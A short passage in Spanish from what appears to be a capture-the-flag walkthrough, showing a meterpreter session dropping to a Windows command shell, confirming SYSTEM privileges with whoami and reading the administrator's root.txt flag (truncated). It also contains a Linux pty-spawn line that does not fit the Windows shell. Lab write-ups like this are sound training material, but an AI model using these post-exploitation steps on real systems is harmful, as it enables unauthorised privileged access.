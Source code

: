 Por último, debemos crear una shell con meterpreter y de esta forma, obtener la flag del administrador.

```
meterpreter > shell
Process 576 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

python3 -c 'import pty;pty.spawn("/bin/bash")'

C:\Users\svc-print\Documents>whoami
whoami
nt authority\system

C:\Users\svc-print\Documents>type C:\Users\Administrator\Desktop\root.txt
type root.txt
d78b1..........................
```
